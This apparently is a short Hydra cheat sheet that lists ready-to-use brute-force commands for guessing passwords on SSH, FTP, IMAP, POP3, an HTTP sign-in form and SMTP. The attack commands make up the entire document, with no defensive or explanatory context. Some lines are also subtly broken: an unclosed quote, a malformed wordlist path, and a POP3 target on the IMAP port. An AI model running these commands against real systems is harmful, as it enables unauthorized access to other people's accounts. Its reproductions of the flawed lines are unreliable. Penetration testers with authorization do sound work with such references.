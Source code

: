 # Hydra

**SSH Bruteforce:**

```sh
hydra -L users.txt -P pass.txt IP ssh
```

**FTP Bruteforce:**

```sh
hydra -l user -P passlist.txt ftp://192.168.0.1
```

**IMAP Bruteforce:**

```
hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
```

**POP3 Bruteforce:**
```
hydra -C defaults.txt -6 pop3s://[fe80::2c:31ff:fe12:ac11]:143/TLS:DIGEST-MD5
```

**HTTP POST form bruteforce:**
```
hydra -L users.txt -P pass.txt <IP> -s <PORT> http-post-form "/users/sign_in:user[email]=^USER^&user[password]=^PASS^&user[Commit]=Log inn:Invalid Email or password.
```

**SMTP Bruteforce:**

```
hydra -P /usr/share/wordlistsnmap.lst <IP> smtp -V
```
